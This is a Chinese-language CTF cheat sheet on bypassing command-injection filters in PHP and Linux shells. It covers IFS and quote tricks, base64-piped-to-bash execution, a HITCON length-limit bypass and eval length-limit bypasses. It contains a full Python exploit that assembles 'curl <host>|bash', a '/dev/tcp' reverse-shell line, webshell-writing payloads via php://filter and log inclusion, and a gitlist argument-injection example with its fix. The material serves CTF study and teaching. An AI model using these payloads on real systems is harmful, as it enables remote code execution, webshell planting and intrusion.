







## tar命令绕过

最近也是才知道的姿势，很多CTF题目并没有过滤tar命令，可以直接打包然后下载，GXYCTF的一道题就可以这样非预期

```
?ip=1;tar$IFS$9-cvf$IFS$9index$IFS$9.
```



## Windows命令执行

```php
<?php
$a = "../ %1a whoami";
$command = 'dir '.urldecode($a);
$escaped_command = escapeshellcmd($command);
var_dump($escaped_command);
file_put_contents('out.bat',$escaped_command);
system('out.bat');
?>
```


## 命令分隔符

```
|
||
&&
;
```

## 空格绕过

```
~ ᐅ cat<>flag     
flag{fffffffffff}
~ ᐅ cat<flag 
flag{fffffffffff}
```

`${IFS}`

这算是Linux中的一个变量

> Linux下有一个特殊的环境变量叫做IFS，叫做内部字段分隔符（internal field separator）。IFS环境变量定义了bash shell用户字段分隔符的一系列字符。默认情况下，bash shell会将下面的字符当做字段分隔符：空格、制表符、换行符。

```
~ ᐅ echo ${IFS} > aa.txt
~ ᐅ xxd aa.txt 
00000000: 2009 0a00 0a                              ....

//用python读取一下
>>> f = open("aa.txt")
>>> f.readlines()
[' \t\n', '\x00\n']
```

使用 `${IFS}` 绕过(但是我没有实验成功) ==只适用于Ubuntu==

```bash
ubuntu@VM-207-93-ubuntu:~$ cat flag
nice day
ubuntu@VM-207-93-ubuntu:~$ cat${IFS}flag
nice day

ubuntu@VM-207-93-ubuntu:~$ cat${IFS}$9flag
nice day
ubuntu@VM-207-93-ubuntu:~$ cat$IFS$9flag
nice day
```

## 黑名单绕过

有些时候会设置一些关键字过滤(比如设置flag)

### 拼接

```
~ ᐅ a=c;b=at;c=flag;$a$b $c
flag{fffffffffff}
```

### 编码

```
~ ᐅ echo "Y2F0IGZsYWc="|base64 -d|bash
flag{fffffffffff}
```

### 单引号双引号

```bash
~ ᐅ c""at flag
flag{fffffffffff}
~ ᐅ c""at fl""ag
flag{fffffffffff}
~ ᐅ c""at fl''ag
flag{fffffffffff}
```

### 反斜线

```
~ ᐅ c\at fl\ag
flag{fffffffffff}
```

## 绕过长度的限制

原题

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

Linux 可以通过 `\` 换行

`sh filename` 可以执行一个shell脚本，如果有报错的话会自动跳过

`>` 会覆盖原有的内容

`>>` 是追加内容

思路就是通过构造一个文件然后往里面写入类似`curl 192.168.1.104|bash` 之类的语句然后执行，其实还可以利用其他python 以及PHP环境去执行代码，访问 `192.168.1.104/index.php`里面的内容`bash -i >& /dev/tcp/192.168.1.104/12345 0>&1`从而达到反弹webshell的目的

php执行生成的\_的内容序列并非和我们在linux命令行一样，查资料 ls 排序和应该和环境变量`LC_COLLATE`有关！而php应该是c  
[https://www.zhihu.com/question/273928679](https://www.zhihu.com/question/273928679)



最后的exp

```python
import requests
from time import sleep
from urllib import quote

payload = [
    # generate `ls -t>g` file
    '>ls\\', 
    'ls>_', 
    '>\ \\', 
    '>-t\\', 
    '>\>g', 
    'ls>>_', 

    # generate `curl orange.tw.tw|python`
    # generate `curl 10.188.2.20|bash` 
    '>sh\ ', 
    '>ba\\', 
    '>\|\\',
    '>20\\',
    '>2.\\', 
    '>8.\\',
    '>18\\', 
    '>0.\\', 
    '>1\\', 
    '>\ \\', 
    '>rl\\', 
    '>cu\\', 

    # exec
    'sh _', 
    'sh g', 
]

r = requests.get('http://10.188.2.20:22460/?reset=1')
for i in payload:
    assert len(i) <= 5 
    r = requests.get('http://10.188.2.20:22460/?cmd=' + quote(i) )
    print i
    sleep(0.2)
```

[Dockerfile](https://github.com/t3hp0rP/hitconDockerfile/tree/master/hitcon-ctf-2017/babyfirst-revenge)

## 绕过长度为4的限制

。。太狠了

## 绕过长度限制写shell



## 参数注入

gitlist远程命令执行漏洞

```php
<?php
public function searchTree($query, $branch)
{
    if (empty($query)) {
        return null;
    }
    $query = escapeshellarg($query);
    try {
        $results = $this->getClient()->run($this, "grep -i --line-number {$query} $branch");
    } catch (\RuntimeException $e) {
        return false;
    }
```

复现：

这里的问题出在单引号并不能使得包裹的内容成为一个非选项



创建一个 `--name` 文件，但是无法直接用 cat进行读取，因为会被认为是一个选项，即使是用单引号包裹也不行

比如这个命令就不会执行，因为单引号包裹的内容放在 `-e` 选项的值中

```
git grep -i --line-number -e '--open-files-in-pager=id;' master
```



必须是 `cat -- --name`, 从这个例子也能看出，单引号并不是区分一个字符串是“参数值”或“选项”的标准。

修复：

```php
<?php
public function searchTree($query, $branch)
{
    if (empty($query)) {
        return null;
    }
    $query = preg_replace('/(--?[A-Za-z0-9\-]+)/', '', $query);
    $query = escapeshellarg($query);
    try {
        $results = $this->getClient()->run($this, "grep -i --line-number -- {$query} $branch"); //强制加入 -- 使得后面的成为参数的值
    } catch (\RuntimeException $e) {
        return false;
    }
```

python中存在的漏洞点

```python
import subprocess

query = 'id'
r = subprocess.run(['git', 'grep', '-i', '--line-number', query, 'master'], cwd='/tmp/vulhub')
```



## eval长度限制绕过 && PHP5.6新特性

```php
<?php
$param = $_REQUEST['param'];
if(strlen($param)<17 && stripos($param,'eval') === false && stripos($param,'assert') === false) {
  eval($param);
}
?>
```

### 命令执行

```
param=`$_GET[1]`;&1=bash
```

或者

```
param=exec($_GET[1]);
```

### 远程文件包含

有的同学提到了远程文件，但正常文件包含`include $_GET[1];`，这个刚好17个字符，超了一位。

不过，其实`include$_GET[1];`也是可以运行的，中间的空格可以不要。

这也是一个思路，但限制就是需要开启远程文件包含，但这个选项默认是关闭的。

### 本地文件包含

```
param=$_GET[a](N,a,8);&a=file_put_contents
```

file\_put\_contents的第一个参数是文件名，我传入N。PHP会认为N是一个常量，但我之前并没有定义这个常量，于是PHP就会把它转换成字符串’N’；第二个参数是要写入的数据，a也被转换成字符串’a’；第三个参数是flag，当flag=8的时候内容会追加在文件末尾，而不是覆盖。

除了`file_put_contents`，`error_log`函数效果也类似。

但是file\_put\_contents第二个参数如果是符号，就会导致PHP出错，比如`param=$_GET[a](N,<,8);&a=file_put_contents`。但如果要写webshell的话，“<”等符号又是必不可少的。

写shell的方法

```
# 每次写入一个字符：PD9waHAgZXZhbCgkX1BPU1RbOV0pOw
# 最后包含
param=include$_GET[0];&0=php://filter/read=convert.base64-decode/resource=N
```

#### 本地日志包含

```
param=include$_GET[a];&a=/home/u244201241/.logs/php_error.log
```

### 标准答案，利用变长参数执行

```
POST /test.php?1[]=test&1[]=var_dump($_SERVER);&2=assert HTTP/1.1
Host: localhost:8081
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

param=usort(...$_GET);
```



[参考](https://www.leavesongs.com/PHP/bypass-eval-length-restrict.html)

一个坑

想请教下，为什么用标准答案的方法时，get参数必须用数字才能正常执行，换成比如？a\[\]=test&a\[\]=phpinfo();&b=assert时就会失败，不知可否解答下

只有数字索引数组才能作为变长参数数组。
